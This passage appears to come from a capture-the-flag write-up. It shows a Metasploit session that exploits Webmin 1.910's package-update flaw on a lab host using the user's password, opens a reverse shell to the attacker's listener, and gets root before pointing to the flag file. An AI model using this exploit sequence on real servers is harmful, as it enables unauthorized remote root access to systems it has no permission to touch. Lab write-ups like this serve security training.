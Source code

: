 ```console
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin <= 1.910


msf6 exploit(linux/http/webmin_packageup_rce) > set rhost 10.10.10.160
rhost => 10.10.10.160
msf6 exploit(linux/http/webmin_packageup_rce) > set username Matt
username => Matt
msf6 exploit(linux/http/webmin_packageup_rce) > set password computer2008
password => computer2008
msf6 exploit(linux/http/webmin_packageup_rce) > set lhost 10.10.14.10
lhost => 10.10.14.10
msf6 exploit(linux/http/webmin_packageup_rce) > set ssl true
[!] Changing the SSL option\'s value may require changing RPORT!
ssl => true
msf6 exploit(linux/http/webmin_packageup_rce) > run

[*] Started reverse TCP handler on 10.10.14.10:4444 
[+] Session cookie: 2470ba29a6459f3f2089ad6ea1dca819
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.14.10:4444 -> 10.10.10.160:48752) at 2022-11-13 23:35:12 -0500

whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```

### Now we have the `root` shell.

The **root flag** is located at `/root/root.txt`.

### Done!
